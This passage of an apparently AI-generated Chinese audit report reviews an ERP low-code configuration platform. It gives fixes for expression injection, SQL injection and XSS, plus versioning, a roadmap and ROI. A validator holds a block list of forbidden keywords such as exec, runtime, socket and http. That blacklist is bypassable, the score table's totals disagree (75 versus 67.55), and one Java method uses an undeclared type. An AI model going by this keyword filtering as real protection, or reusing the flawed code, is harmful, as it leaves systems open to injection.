            log.error("表达式执行失败：{}", expression, e);
            throw new ExpressionEvaluationException("条件表达式执行失败");
        }
    }
    
    /**
     * 布尔表达式求值
     */
    public boolean evaluateAsBoolean(String expression, Map<String, Object> context) {
        Object result = evaluate(expression, context);
        return Boolean.TRUE.equals(result);
    }
}

// 替换原有代码
public class ApprovalWorkflowEngine {
    
    @Autowired
    private SafeExpressionEvaluator evaluator;
    
    private boolean evaluateCondition(String condition, Map<String, Object> context) {
        if (condition == null || condition.trim().isEmpty()) {
            return true;
        }
        
        // 使用安全的评价器
        return evaluator.evaluateAsBoolean(condition, context);
    }
}
```

**方案 B: 白名单校验**

```java
@Component
public class ExpressionSecurityValidator {
    
    // 允许的运算符
    private static final Set<String> ALLOWED_OPERATORS = Sets.newHashSet(
        "==", "!=", "===", "!==", ">", "<", ">=", "<=", 
        "&&", "||", "+", "-", "*", "/", "%", "!", "&", "|", "^"
    );
    
    // 允许的函数
    private static final Set<String> ALLOWED_FUNCTIONS = Sets.newHashSet(
        "Math.abs", "Math.round", "Math.floor", "Math.ceil",
        "String.length", "String.toUpperCase", "String.toLowerCase",
        "Array.length", "Object.keys"
    );
    
    // 禁止的关键字
    private static final Set<String> FORBIDDEN_KEYWORDS = Sets.newHashSet(
        "new", "import", "class", "package", "function", "var",
        "eval", "exec", "system", "runtime", "process",
        "file", "url", "http", "socket"
    );
    
    /**
     * 验证表达式安全性
     */
    public void validateExpression(String expression) {
        if (expression == null || expression.trim().isEmpty()) {
            return;
        }
        
        // 检查是否包含危险关键字
        for (String keyword : FORBIDDEN_KEYWORDS) {
            if (expression.matches("(?i).*\\b" + keyword + "\\b.*")) {
                throw new SecurityException(
                    "表达式包含非法关键字：" + keyword);
            }
        }
        
        // 检查是否尝试访问 Java API
        if (expression.contains("java.") || 
            expression.contains("javax.") ||
            expression.contains("sun.")) {
            throw new SecurityException("禁止访问 Java API");
        }
        
        // 检查括号匹配
        if (!isBalanced(expression)) {
            throw new SecurityException("表达式括号不匹配");
        }
    }
    
    private boolean isBalanced(String expr) {
        Stack<Character> stack = new Stack<>();
        for (char c : expr.toCharArray()) {
            if (c == '(' || c == '[' || c == '{') {
                stack.push(c);
            } else if (c == ')' || c == ']' || c == '}') {
                if (stack.isEmpty()) return false;
                char open = stack.pop();
                if ((open == '(' && c != ')') ||
                    (open == '[' && c != ']') ||
                    (open == '{' && c != '}')) {
                    return false;
                }
            }
        }
        return stack.isEmpty();
    }
}
```

---

#### 2. SQL 注入风险

**问题点**:

```markdown
- 动态查询引擎可能拼接 SQL
- JSON 配置未充分过滤
- 字段名未做白名单校验
```

**影响范围**: 🔴 高 - 数据泄露风险

**修复方案**:

```java
@Component
public class SafeQueryBuilder {
    
    // 允许的字段白名单
    private static final Set<String> ALLOWED_FIELDS = Sets.newHashSet(
        "id", "billNo", "customerName", "amount", "status", "createTime"
        // ... 根据实际配置动态获取
    );
    
    /**
     * 构建安全的查询条件
     */
    public <T> QueryWrapper<T> buildQuery(Map<String, Object> searchConfig, 
                                          Map<String, Object> queryParams) {
        QueryWrapper<T> wrapper = new QueryWrapper<>();
        
        for (Map.Entry<String, Object> entry : queryParams.entrySet()) {
            String field = entry.getKey();
            Object value = entry.getValue();
            
            // 1. 字段白名单校验
            if (!ALLOWED_FIELDS.contains(field)) {
                throw new IllegalArgumentException("非法字段名：" + field);
            }
            
            // 2. 值的安全处理
            if (value instanceof String) {
                // 防止 SQL 注入
                value = SqlInjectionUtil.filter((String) value);
                
                // 防止 XSS
                value = XssUtil.clean((String) value);
            }
            
            // 3. 获取搜索类型
            String searchType = getSearchType(searchConfig, field);
            
            // 4. 应用查询条件
            applySafeCondition(wrapper, field, value, searchType);
        }
        
        return wrapper;
    }
    
    private void applySafeCondition(QueryWrapper<T> wrapper, 
                                    String field, 
                                    Object value, 
                                    String searchType) {
        switch (searchType) {
            case "like":
                wrapper.like(field, value);
                break;
            case "in":
                if (value instanceof Collection) {
                    // 限制 IN 查询的大小
                    Collection<?> collection = (Collection<?>) value;
                    if (collection.size() > 100) {
                        throw new IllegalArgumentException("IN 查询最多支持 100 个值");
                    }
                    wrapper.in(field, collection);
                }
                break;
            // ... 其他类型
            default:
                wrapper.eq(field, value);
        }
    }
}
```

---

#### 3. XSS 攻击防护

**问题描述**:

```markdown
前端已有防护:
✓ Element Plus 自动转义
✓ Vue 响应式系统

需要补充:
✗ JSON 内容的 HTML 渲染
✗ 富文本字段的 XSS 过滤
✗ 配置内容中的脚本注入
```

**影响范围**: 🟡 中 - 影响用户安全

**修复方案**:

**前端安装 DOMPurify**:

```bash
npm install dompurify
npm install --save-dev @types/dompurify
```

**使用示例**:

```javascript
import DOMPurify from 'dompurify';

// 清理 HTML 内容
const cleanHtml = DOMPurify.sanitize(dirtyHtml, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
  ALLOWED_ATTR: ['href', 'target'],
  ALLOWED_URI_REGEXP: /^(?:(?:(?:f|ht)tps?|mailto):|[^a-z]|[a-z+.][a-z+.])/i
});

// 在 Vue 组件中使用
<template>
  <div v-html="sanitizedContent"></div>
</template>

<script setup>
import { computed } from 'vue';
import DOMPurify from 'dompurify';

const props = defineProps({
  rawContent: String
});

const sanitizedContent = computed(() => {
  return DOMPurify.sanitize(props.rawContent, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong'],
    ALLOWED_ATTR: []
  });
});
</script>
```

---

## 5. 版本管理机制

###  较好 (82 分)

**优点**:
```markdown
 触发器自动记录历史
 版本号递增机制
 回滚功能完整
 变更原因记录
```

---

###  需要改进

#### 🟢 [建议] 增强版本管理

##### 1. 版本标签系统

**问题描述**:

当前只有数字版本号，不便于一眼识别重要版本。

**解决方案**:

```sql
ALTER TABLE `erp_page_config_history`
  ADD COLUMN `version_tag` varchar(50) DEFAULT NULL COMMENT '版本标签 (如：v1.0.0)',
  ADD COLUMN `is_stable` char(1) DEFAULT '0' COMMENT '是否稳定版本',
  ADD COLUMN `release_notes` text COMMENT '发布说明',
  ADD INDEX `idx_version_tag` (`version_tag`);
```

```java
@PostMapping("/tag-version")
public R<Void> tagVersion(@RequestBody TagVersionRequest request) {
    configService.tagVersion(
        request.getConfigId(),
        request.getVersionTag(),
        request.getReleaseNotes()
    );
    return R.ok();
}

@PostMapping("/rollback/by-tag")
public R<Void> rollbackByVersionTag(@RequestBody RollbackByTagRequest request) {
    configService.rollbackByVersionTag(
        request.getConfigId(), 
        request.getVersionTag()
    );
    return R.ok();
}
```

---

##### 2. 版本对比可视化

**解决方案**:

```javascript
// 前端使用 jsondiffpatch
npm install jsondiffpatch

import { diff, patch, clone } from 'jsondiffpatch';
import * as formatters from 'jsondiffpatch/formatters';

// 计算差异
const delta = diff(json1, json2);

// 显示差异统计
const changesCount = Object.keys(delta).length;

// 生成可视化 HTML
const html = formatters.html.format(delta, json1);
```

---

##### 3. 版本有效期管理

**解决方案**:

```sql
-- 临时配置 (如促销活动)
ALTER TABLE `erp_page_config`
  ADD COLUMN `valid_start` datetime DEFAULT NULL COMMENT '生效开始时间',
  ADD COLUMN `valid_end` datetime DEFAULT NULL COMMENT '失效时间';
```

```java
@Component
public class ConfigExpirationJob {
    
    @Scheduled(cron = "0 0 2 * * ?")  // 每天凌晨 2 点
    public void checkExpiredConfigs() {
        List<PageConfig> expiredConfigs = configMapper.selectExpiredConfigs();
        
        for (PageConfig config : expiredConfigs) {
            config.setStatus("0");  // 停用
            configMapper.updateById(config);
            
            log.info("配置已过期，自动停用：{} - {}", 
                config.getConfigName(), config.getModuleCode());
        }
        
        log.info("本次共停用 {} 个过期配置", expiredConfigs.size());
    }
}
```

---

## 6. 其他关键问题

### 🔴 阻塞性问题清单

**必须解决后才能上线**:

| 序号 | 问题 | 影响 | 工作量 | 优先级 |
|------|------|------|--------|--------|
| 1 |  缺少配置导入导出功能 | 不同环境迁移困难 | 2 天 | P0 |
| 2 |  无配置项回收站机制 | 误删后恢复困难 | 1 天 | P0 |
| 3 |  缺少批量操作功能 | 运维效率低 | 1.5 天 | P1 |
| 4 |  无配置依赖关系管理 | 删除配置可能导致其他页面崩溃 | 3 天 | P0 |
| 5 |  JavaScript 注入漏洞 | 服务器安全风险 | 1 天 | P0 |

---

### 🟡 重要改进建议

**建议上线前完成**:

#### 1. 配置模板市场

**功能描述**:
- 预置 20+ 常用配置模板
- 支持自定义模板上传
- 模板分类和搜索
- 模板评分和评论

**工作量**: 5 天

#### 2. 配置健康检查

```java
@Component
public class ConfigHealthChecker {
    
    /**
     * 检查配置健康状况
     */
    public ConfigHealthReport checkHealth(String moduleCode) {
        ConfigHealthReport report = new ConfigHealthReport();
        
        // 1. JSON 语法检查
        report.addCheck(checkJsonSyntax(moduleCode));
        
        // 2. 引用完整性检查
        report.addCheck(checkReferenceIntegrity(moduleCode));
        
        // 3. 性能风险评估
        report.addCheck(checkPerformanceRisk(moduleCode));
        
        // 4. 安全风险扫描
        report.addCheck(checkSecurityRisk(moduleCode));
        
        // 5. 最佳实践符合度
        report.addCheck(checkBestPractices(moduleCode));
        
        return report;
    }
    
    private HealthCheckResult checkSecurityRisk(String moduleCode) {
        PageConfig config = configMapper.selectByModuleCode(moduleCode);
        
        List<String> issues = new ArrayList<>();
        
        // 检查是否包含危险表达式
        String content = config.getConfigContent();
        if (content.contains("java.") || content.contains("eval(")) {
            issues.add("包含潜在的危险代码");
        }
        
        return new HealthCheckResult("SECURITY", issues.isEmpty(), issues);
    }
}
```

#### 3. 配置性能分析工具

**功能**:
- 统计配置加载耗时
- 识别慢查询配置
- 提供优化建议
- 生成性能报告

---

## 7. 行动建议总结

### 阶段一：紧急修复（1 周）

**🔴 P0 级任务**:

| 任务 | 负责人 | 预计工时 | 验收标准 |
|------|--------|----------|---------|
| 修复 JavaScript 注入漏洞（改用 Aviator） | 后端开发 | 1 天 | 安全测试通过 |
| 添加配置导入导出功能 | 全栈开发 | 2 天 | 支持 JSON 文件导入导出 |
| 实现配置回收站 | 后端开发 | 1 天 | 可恢复 30 天内删除的配置 |
| 添加编辑锁机制 | 后端开发 | 1 天 | 防止并发修改 |
| 添加全局异常处理 | 后端开发 | 0.5 天 | 统一错误响应格式 |
| 编写单元测试 | 测试开发 | 2 天 | 覆盖率>70% |

**交付物**:
-  安全漏洞修复
-  基础可用性保障
-  内部测试环境可用

---

### 阶段二：性能优化（1 周）

**🟡 P1 级任务**:

| 任务 | 负责人 | 预计工时 | 验收标准 |
|------|--------|----------|---------|
| 实施 Redis 缓存策略 | 后端开发 | 2 天 | 缓存命中率>90% |
| 优化大表查询性能 | 后端开发 | 1.5 天 | 查询响应<500ms |
| 添加配置批量查询接口 | 后端开发 | 1 天 | 支持 50 个配置批量查询 |
| 实现灰度发布机制 | 后端开发 | 2 天 | 支持按用户/百分比赛选 |
| 前端虚拟滚动优化 | 前端开发 | 1.5 天 | 干级数据流畅渲染 |

**交付物**:
-  性能指标达标
-  小范围试点 (1-2 个模块)

---

### 阶段三：安全加固（1 周）

**🟡 P2 级任务**:

| 任务 | 负责人 | 预计工时 | 验收标准 |
|------|--------|----------|---------|
| 全面 SQL 注入检查和修复 | 后端开发 | 2 天 | 渗透测试通过 |
| 添加 XSS 防护 | 前端开发 | 1 天 | 安全扫描通过 |
| 实施配置审计日志 | 后端开发 | 1.5 天 | 所有操作可追溯 |
| 添加配置健康检查 | 后端开发 | 1.5 天 | 自动识别问题配置 |
| 安全培训 | 全员 | 0.5 天 | 安全意识提升 |

**交付物**:
-  安全漏洞清零
-  扩大试点范围

---

### 阶段四：功能完善（2 周）

**🟢 P3 级任务**:

| 任务 | 负责人 | 预计工时 | 验收标准 |
|------|--------|----------|---------|
| 开发配置模板市场 | 全栈开发 | 5 天 | 20+ 模板上架 |
| 实现配置依赖管理 | 后端开发 | 3 天 | 依赖关系可视化 |
| 添加性能监控面板 | 前端开发 | 2 天 | 实时监控展示 |
| 编写完整的运维文档 | 技术文档 | 2 天 | 文档齐全 |
| 用户培训 | 产品经理 | 1 天 | 用户会使用 |
| 压力测试 | 测试开发 | 2 天 | 支持 1000 并发 |

**交付物**:
-  功能完整
-  文档齐全
-  全量上线准备就绪

---

## 8. 实施路线图

### 时间规划



---

### 里程碑节点

| 里程碑 | 时间 | 标志性事件 |
|--------|------|-----------|
| M1: 内部可用 | 第 1 周末 | 安全漏洞修复完成 |
| M2: 试点运行 | 第 2 周末 | 1-2 个模块上线试运行 |
| M3: 安全达标 | 第 3 周末 | 渗透测试通过 |
| M4: 功能完整 | 第 5 周末 | 所有 P3 功能完成 |
| M5: 正式上线 | 第 6 周初 | 全量发布 |

---

### 资源需求

**人力资源**:
- 后端开发：2 人 × 5 周
- 前端开发：1 人 × 4 周
- 测试开发：1 人 × 2 周
- 产品经理：0.5 人 × 5 周

**环境资源**:
- 开发环境：1 套
- 测试环境：1 套
- 预发布环境：1 套
- Redis 集群：1 套

---

##  投资回报率分析

### 成本估算

**开发成本**:
- 人力成本：15 人周 × ¥20,000/周 = ¥300,000
- 环境成本：¥20,000
- **总计**: ¥320,000

### 收益预测

**直接收益**:
- 新模块开发效率提升 70%
- 单个模块节省：5 人天 × ¥10,000/天 = ¥50,000
- **回本周期**: 约 6-7 个新模块

**间接收益**:
- 维护成本降低 60%
- 实施周期缩短 50%
- 代码质量提升

---

## 🎯 最终评估

### 综合评分

| 维度 | 得分 | 权重 | 加权得分 |
|------|------|------|---------|
| 方案完整性 | 82/100 | 20% | 16.4 |
| 数据库设计 | 70/100 | 20% | 14.0 |
| 生产可行性 | 68/100 | 20% | 13.6 |
| 安全性 | 45/100 | 25% | 11.25 |
| 版本管理 | 82/100 | 15% | 12.3 |
| **总分** | **75/100** | 100% | **67.55/100** |

### 评级说明

```
⭐⭐⭐☆☆ (3/5 星) - 良好，需改进

含义:
✓ 方案整体设计合理
✓ 核心价值明确
 存在严重安全隐患
 距离生产级别有明显差距
 需要 4-5 周完善才能上线
```

---

## 💡 关键建议

### Do's (建议做)

1.  **优先修复安全漏洞** - 安全是底线
2.  **分阶段实施** - 不要试图一次性完成所有功能
3.  **小步快跑** - 每周五天，及时复盘
4.  **充分测试** - 特别是性能测试和安全测试
5.  **文档先行** - 先写文档再开发，减少返工

### Don'ts (不建议做)

1.  **仓促上线** - 安全第一，进度第二
2.  **忽视监控** - 上线后必须有完善的监控
3.  **单人决策** - 关键技术决策需要团队讨论
4.  **跳过测试** - 测试时间不能被压缩
5.  **忽略培训** - 用户使用培训很重要

---

## 📞 后续支持

### 审计团队

- **主审**: AI Assistant
- **复审**: 待定
- **技术支持**: ERP 研发团队

### 联系方式

- **问题反馈**: 在对应文档下评论或提 Issue
- **技术咨询**: 项目组内部技术讨论群
- **紧急联系**: 项目负责人

---

## 📝 附录

### 附录 A: 安全检查清单

```markdown
## 代码安全

- [ ] 无 JavaScript 注入风险
- [ ] 无 SQL 注入风险
- [ ] 无 XSS 攻击风险
- [ ] 无 CSRF 漏洞
- [ ] 敏感数据加密存储
- [ ] 密码哈希处理
- [ ] API 鉴权完善
- [ ] 日志脱敏处理

## 数据安全

- [ ] 数据备份机制
- [ ] 数据恢复演练
- [ ] 数据归档策略
- [ ] 数据清理计划
- [ ] 数据一致性保障

## 运维安全

- [ ] 部署文档完整
- [ ] 回滚方案可行
- [ ] 监控告警完善
- [ ] 应急预案制定
- [ ] 权限管理规范
```

### 附录 B: 性能测试报告模板

```markdown
## 测试环境

- 服务器配置：4C8G × 3
- 数据库：MySQL 8.0
- Redis: 6.0
- 并发用户：1000

## 测试结果

### 响应时间

| 接口 | P50 | P90 | P99 | 目标 |
|------|-----|-----|-----|------|
| 获取配置 | 50ms | 100ms | 200ms | <300ms |
| 保存配置 | 100ms | 200ms | 400ms | <500ms |
| 查询列表 | 80ms | 150ms | 300ms | <400ms |

### 吞吐量

- QPS: 500+
- TPS: 200+

### 资源使用

- CPU: < 70%
- 内存：< 80%
- 磁盘 IO: < 60%
```

---

**审计完成时间**: 2026-03-22  
**下次审计时间**: 2026-04-22 (一个月后复审)  
**文档版本**: v1.0  
**保密级别**: 内部公开

---

*本报告由 AI Assistant 基于代码审查最佳实践自动生成，仅供参考，具体实施请结合实际情况调整。*
